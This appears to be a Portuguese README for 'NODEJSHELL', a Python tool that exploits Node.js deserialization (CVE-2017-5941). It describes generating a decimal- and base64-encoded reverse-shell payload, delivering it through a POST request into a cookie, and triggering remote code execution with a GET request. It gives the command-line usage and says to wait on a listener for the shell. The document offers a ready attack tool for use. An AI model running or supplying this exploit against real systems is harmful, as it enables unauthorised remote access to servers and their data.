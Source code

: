 # NODEJSHELL - Exploit de reverse shell para desserialização em NodeJs (CVE-2017-5941)
O exploit gera de forma automática o payload de reverse shell que é encodado em decimal e depois em base64.
Depois disso esse payload é enviado através de uma requisição http POST que serializa o input do usuário e armazena em um cookie.
Então conseguimos o RCE acessando através de uma requisição GET.

Modo de uso:

```python3 nodejshell.py <lhost> <lport>```


**lhost**: seu endereço de IP local
**lport**: a porta em que você quer conectar a sua reverse shell

Depois disso você precisa só suprir algumas informações simples:

- Nome do parâmetro que irá enviar a payload pelo *POST*.
- Nome do cookie que irá ativar a payload pelo *GET*.

Feito isso, só ativar o seu **listener** preferido e esperar receber a conexão.

![alt text](njs1.png)
![alt text](njs2.png)
